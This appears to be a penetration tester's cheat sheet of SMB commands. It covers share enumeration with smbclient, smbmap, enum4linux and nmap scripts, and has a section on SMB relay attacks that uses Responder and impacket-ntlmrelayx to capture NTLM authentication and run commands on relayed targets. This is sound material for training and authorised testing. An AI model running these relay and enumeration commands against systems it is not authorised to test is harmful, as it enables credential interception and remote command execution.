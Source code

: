 ```
smbclient -L \\\\$IP\\
```

```
smbclient \\\\$IP\\DIRECTORY
```

```
smbclient -L //$DomainIP -U $DomainName/$DomainUsername
```

```
smbclient -L //$DomainIP/DIRECTORY -U $DomainName/$DomainUsername
```

/etc/samba/smb.conf

```
searchsploit Samba 2
```

```
smbmap -H $ip -u 'anonymous' -p 'anonymous'
```

```
enum4linux -a -u "<username>" -p "<passwd>" <IP>
```

```
smbclient //$ip/directory -U '<username>'
```

## SMB Relay Attack

```
nmap --script=smb2-security-mode.nse -p445 $IP
```

```
sudo responder -I eth1 -dwPv
```

![](Pasted%20image%2020231021151759.png)

```
impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"
```

```
sudo nmap --script smb-enum-shares -p445 10.129.200.70
```

```
sudo nmap -sU -sS --script smb-enum-shares.nse -p U:137,T:139 10.129.200.70
```

```
sudo nmap -p139 --script smb-protocols 10.129.200.70
```

```
sudo nmap -p445 --script smb-protocols 10.129.200.70
```

```
nmap --script=smb-protocols -p139,445 --open --reason -sV -Pn
nmap --script=smb-protocols -p445 --open --reason -sV -Pn
nmap --script=smb-protocols -p139 --open --reason -sV -Pn
```


